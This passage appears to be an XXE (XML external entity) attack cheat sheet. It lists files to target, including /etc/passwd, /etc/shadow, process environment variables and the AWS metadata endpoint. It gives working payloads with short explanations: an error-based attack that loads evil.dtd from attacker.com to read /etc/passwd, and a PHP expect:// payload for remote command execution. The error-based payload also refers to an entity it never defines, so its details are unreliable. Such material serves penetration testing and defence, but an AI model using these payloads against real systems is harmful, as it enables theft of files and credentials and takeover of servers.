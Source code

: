 **Explanation**: Defines an external entity `xxe` that loads the content of `/etc/passwd`. The `&xxe;` reference in the `root` element causes the parser to include this content in the response.  

**Common Files to Target**:  
*   `/etc/passwd` (Linux user accounts)
*   `/etc/shadow` (Linux hashed passwords - requires root or specific permissions)
*   `/etc/hosts`
*   `/etc/hostname`
*   `/proc/self/cmdline` (Linux current process command line)
*   `/proc/self/environ` (Linux environment variables)
*   AWS Metadata: `http://169.254.169.254/latest/meta-data/` (for cloud environments)
*   Windows: `C:\windows\win.ini`, `C:\boot.ini`  

### Error-Based XXE
 If the application doesn't return the content directly, an attacker might force an error message that reveals the content. This often requires nesting entities.  

#### Payload (Example with a remote DTD to trigger error reporting)
            ```xml
            <?xml version="1.0"?>
            <!DOCTYPE foo [
              <!ENTITY % remote_dtd SYSTEM "http://attacker.com/evil.dtd">
              %remote_dtd;
              %all;
            ]>
            <root>&send;</root>
            ```
##### `evil.dtd` hosted on `attacker.com`   

        ```xml
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY &#x25; all SYSTEM 'php://filter/read=convert.base64-encode/resource=%file;'>">
        %eval;
        ```

**Explanation**: This complex payload fetches `evil.dtd`. The `evil.dtd` then attempts to read `/etc/passwd` and wrap it in a base64-encode filter (specific to PHP) inside a new entity `%all`. When `%all` is then referenced and fails to be parsed as a valid DTD, the error message might contain the base64-encoded file content.  

### PHP `expect://` Wrapper (for RCE)
If the PHP `expect` extension is loaded, the `expect://` wrapper can be used for remote code execution.
#### Payload
            ```xml
            <?xml version="1.0"?>
            <!DOCTYPE foo [
              <!ENTITY xxe SYSTEM "expect://id">
            ]>
            <root>&xxe;</root>
            ```
**Explanation**: If the `expect` wrapper is active, this will execute the `id` command and return its output in the response.  
